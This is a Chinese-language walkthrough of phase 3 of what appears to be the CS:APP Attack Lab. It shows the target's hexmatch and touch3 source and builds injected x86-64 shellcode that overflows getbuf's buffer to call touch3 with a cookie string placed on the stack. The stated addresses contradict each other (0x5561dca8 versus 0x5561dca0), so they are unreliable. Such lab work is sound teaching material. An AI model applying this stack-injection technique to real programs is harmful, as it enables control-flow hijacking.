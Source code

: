在ctarget文件中的hexmatch函数和touch3函数如下所示：

```0
/* Compare string to hex represention of unsigned value */ 
int hexmatch(unsigned val, char *sval){
	char cbuf[110];
	/* Make position of check string unpredictable */
	char *s = cbuf + random() % 100;
	sprintf(s, "%.8x", val);
	return strncmp(sval, s, 9) == 0;
}


void touch3(char *sval){
	vlevel = 3; /* Part of validation protocol */
	if (hexmatch(cookie, sval)) {
			printf("Touch3!: You called touch3(\"%s\")\n", sval);
			validate(3);
	} else {
			printf("Misfire: You called touch3(\"%s\")\n", sval);
			fail(3);
	}
	exit(0);
}
```
可以看到，我们需要给出sval以cookie的地址为值。而比较棘手的地方是在于：hexmatch()函数。
> hexmatch函数会将val对应的8位16进制数据转化为字符串存放在cbuf中，但是存放在cbuf中具体的起始位置是随机生成的。  
> sval也是指向在栈中的地址，所以需要保证sval指向栈中的地址和s指向栈中的地址不能冲突，不然数据会被覆盖掉。  
> 字符串cookie应该用字节表示，输入命令man ascii查看所需字符的字节表示，0x59b997fa对应16进制为：35 39 62 39 39 37 66 61。

因为在touch3和hexmatch中会push数据进入堆栈，所以需要注意cookie字符串的存放位置，因为覆盖了保存getbuf使用的缓冲区的内存部分，所以可以不考虑把cookie字符串放到40个字符的堆栈里面，40个字符用来存放命令后填满即可。

所以cookie字符串可以考虑放到get的栈帧中，即越过40个字符的上方，因为不再返回了，所以那部分就不会被触碰到

将cookie字符串存放在栈顶+8字节的位置（即cookie字符串的起始地址），再把这个cookie字符串的起始地址存放进%rdi中。

在Phase2中已经得到栈顶指针%rsp的初始值为0x5561dca0，所以cookie字符串的起始地址为0x5561dca0；并查看，touch3函数的地址为0x4018fa。  
于是构建伪代码

```0
movq $0x5561dca8 , %rdi #set cookie's address to %rdi which is sval
（这其实表面*sval = cookie）
pushq $0x4018fa #push touch3's address to stack
retq #return to touch3
```
输入命令：gcc -c touch3.s生成机器码文件touch3.o   
输入命令：objdump -d touch3.o > touch3.txt进行反汇编。

```0
0000000000000000 <.text>:
   0:   48 c7 c7 a0 dc 61 55    mov    $0x5561dca0,%rdi
   7:   68 fa 18 40 00          push   $0x4018fa
   c:   c3                      ret
```
由Phase2也可以得到getbuf注入的字符串起始位置是0x5561dc78
